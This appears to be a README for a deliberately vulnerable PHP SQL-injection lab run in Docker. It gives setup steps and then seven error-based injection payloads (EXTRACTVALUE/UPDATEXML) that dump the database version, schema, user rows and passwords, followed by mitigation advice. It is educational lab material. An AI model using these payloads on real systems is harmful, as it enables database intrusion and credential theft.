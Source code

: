 
# Error SQL injection: Setup and Exploitation Guide

This guide provides instructions to set up a vulnerable PHP web application, run it locally using Docker, and exploit SQL injection vulnerabilities to understand how such attacks work in real-world scenarios.
---

## Prerequisites

1. **Docker Installed**: Ensure Docker is installed on your system.
   - Check Docker version:
     
     docker --version
    

Install from docker.com if necessary.

2. **Basic Command Line Knowledge**: Ability to navigate and run commands in the terminal.

---

## Setting Up the Application
### Step 1: Clone the Repository
Clone this repository to your local machine:

git clone https://github.com/christina210490/Service_Web_Error_sqli.git

### Step 2: Build and Run the Docker Containers
1. Build the Docker Environment:

docker-compose build

2. Run the Docker Containers:

docker-compose up

3. Access the Application: Open your browser and navigate to:

http://localhost:8081


4. Stop the Application: 

Press Ctrl+C in the terminal running docker-compose or stop it with:

docker-compose down

## Exploiting the SQL Injection Vulnerability


The vulnerable application is set up with a sample database. Below are step-by-step instructions to exploit SQL injection vulnerabilities in this application.


Attack 1: Retrieve MySQL Version

Exploit to find the MySQL version:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, @@version)) -- -


Result: SQL error reveals the MySQL version: 5.7.44.

Attack 2: Retrieve Database Name:

Exploit to find the database name:

http://localhost:8081/user?id=1' AND UPDATEXML(1, CONCAT(0x0a, DATABASE()), 1) -- -
Result: SQL error reveals the database name: testdb.

Attack 3: Retrieve the Number of Tables in the Database

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = 'testdb'))) -- -

Result: There are 3 tables.

Attack 4: Retrieve Table Names

1. Retrieve all table names in one query:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'testdb'))) -- -

Result: orders,payments,users.

2. Retrieve table names one by one:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 0,1))) -- -

Result: orders

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 1,1))) -- -


Result: payments

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 2,1))) -- -
Result: users

Attack 5: Retrieve Column Information

1. Retrieve the number of columns in the users table:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT COUNT(*) FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'testdb'))) -- -

Result: 4.

2. Retrieve column names:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT column_name FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'testdb' LIMIT 0,1))) -- -

Result: id.

Repeat for other columns: name, email, password.

Attack 6: Retrieve User Data

Retrieve rows from the users table:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT CONCAT(id, ':', name, ':', email, ':', password) FROM users LIMIT 0,1))) -- -

Result: 1:Alice:alice@example.com:password1.

Repeat for other rows to retrieve all user data.

Attack 7: Extract All Passwords:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT GROUP_CONCAT(password SEPARATOR '') FROM users))) -- -

Result: password1password2password3.

---

# Impact

This application demonstrates the critical risks of SQL injection vulnerabilities, including:

1. Data Theft: Attackers can retrieve sensitive information like user credentials.

2. Database Manipulation: Malicious queries can delete, modify, or insert data.

3. System Exposure: Attackers can gain insights into system configurations.

---

# Mitigation

To prevent SQL injection:

1. Use Prepared Statements:

Avoid directly concatenating user inputs into SQL queries.
Use parameterized queries.

2.Input Validation:

Validate and sanitize all user inputs.
Reject unexpected or dangerous input patterns.

3. Least Privilege:

Restrict database permissions to limit the impact of an exploited vulnerability.

## Key Takeaways

- This app demonstrates the risks of unsanitized user inputs in SQL queries.
- Real-world attackers could exploit such vulnerabilities to steal sensitive data or manipulate the database.
- Always use prepared statements and validate user inputs to prevent SQL injection.

---

## Disclaimer: 

This guide is intended for educational purposes in a controlled environment. Unauthorized testing or exploitation is illegal and may lead to legal consequences.
